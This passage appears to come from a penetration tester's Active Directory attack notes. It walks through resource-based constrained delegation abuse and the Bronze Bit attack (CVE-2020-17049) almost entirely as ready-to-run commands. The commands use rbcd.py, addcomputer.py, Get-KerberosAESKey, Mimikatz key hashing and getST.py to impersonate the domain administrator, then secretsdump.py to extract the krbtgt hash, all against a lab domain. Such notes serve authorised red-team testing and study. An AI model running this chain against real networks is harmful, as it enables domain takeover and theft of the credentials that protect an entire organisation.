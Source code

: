 Configure RBCD on the vulnerable host (DC01) via PtH:

```
$ python3 rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H fc525c9683e8fe067095ba2ddc971889:fc525c9683e8fe067095ba2ddc971889 -l 192.168.1.11
```



### impacket-rbcd

```
$ rbcd.py -delegate-from 'FAKEMACHINE$' -delegate-to 'SRV01$' -dc-ip 192.168.1.11 -k -no-pass -action {read,write,remove,flush} megacorp.local/snovvcrash
```



### Bronze Bit

**CVE-2020-17049**

* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-theory/)
* [https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/](https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-attack/)

Calculate Kerberos keys for the fake machine account with [Get-KerberosAESKey](https://gist.github.com/Kevin-Robertson/9e0f8bfdbf4c1e694e6ff4197f0a4372):

```
PS > Get-KerberosAESKey -Password 'Passw0rd!' -Salt MEGACORP.LOCALfakemachine
AES128 Key: 01C7B89A74F7AEC1007DED2F3DE0A815
AES256 Key: 211E8E3134ED797B0A2BF6C36D1A966B3BED2B24E4AAA9ECEED23D0ABF659E98
```

Or with Mimikatz:

```
mimikatz # kerberos::hash /domain:megacorp.local /user:fakemachine /password:Passw0rd!
        * rc4_hmac_nt       fc525c9683e8fe067095ba2ddc971889
        * aes128_hmac       01c7b89a74f7aec1007ded2f3de0a815
        * aes256_hmac       211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98
        * des_cbc_md5       621a91461f1adffe
```

Now you can impersonate a protected user:

```
$ addcomputer.py -computer-name fakemachine -computer-pass 'Passw0rd!' -dc-ip 192.168.1.11 -dc-host DC01.megacorp.local megacorp.local/snovvcrash:'Qwe123!@#'
$ python3 rbcd.py -t 'CN=dc01,OU=Domain Controllers,DC=megacorp,DC=local' -d megacorp.local -c 'CN=fakemachine,CN=Computers,DC=megacorp,DC=local' -u snovvcrash -H 79bfd1ab35c67c19715aea7f06da66ee:79bfd1ab35c67c19715aea7f06da66ee -l 192.168.1.11
$ getST.py -spn ldap/DC01.megacorp.local -impersonate 'administrator' -dc-ip 192.168.1.11 megacorp.local/fakemachine -hashes :fc525c9683e8fe067095ba2ddc971889 -aesKey 211e8e3134ed797b0a2bf6c36d1a966b3bed2b24e4aaa9eceed23d0abf659e98 -force-forwardable
$ secretsdump.py DC01.megacorp.local -just-dc-user 'MEGACORP\krbtgt' -dc-ip 192.168.1.11 -no-pass -k
```

